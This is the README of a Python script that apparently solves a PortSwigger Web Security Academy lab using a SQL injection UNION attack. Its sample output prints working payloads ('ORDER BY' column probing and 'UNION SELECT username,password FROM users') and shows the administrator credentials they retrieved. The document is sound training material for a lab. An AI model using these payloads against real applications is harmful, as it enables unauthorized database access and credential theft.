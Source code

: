 # 🔐 SQL Injection vulnerability using UNION to identify column containing text

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveFromOtherTable.py https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net users username password
```

### ✅ Sample Output

```
(+) Targeting: https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null--

(✓) Column 1 accepts string data.

(+) Attempting to extract data from table 'users'...

    ➤ Final payload: ' UNION SELECT username,password FROM users--

(✓) Administrator credentials found:

    ➤ Username: administrator
    ➤ Password: arj0eaiquwuuo2bkibqk
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

